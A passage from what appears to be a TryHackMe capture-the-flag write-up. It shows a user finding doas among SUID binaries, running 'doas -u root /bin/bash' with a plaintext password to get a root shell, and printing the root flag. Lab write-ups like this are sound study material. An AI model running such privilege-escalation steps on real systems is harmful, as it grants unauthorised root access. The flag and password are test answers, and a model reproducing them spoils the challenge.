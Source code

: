 ~~~
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/doas <---------------------- interesting!
~~~

Let's check:

~~~
v0id@ubuntu:~$ doas -u root /bin/bash
doas -u root /bin/bash
Password: love_the_void

root@ubuntu:/home/v0id# cd /root
cd /root
root@ubuntu:~# cat root.txt
cat root.txt
THM{diamonds_break_our_aching_minds}
~~~

Root flag: `THM{diamonds_break_our_aching_minds}`
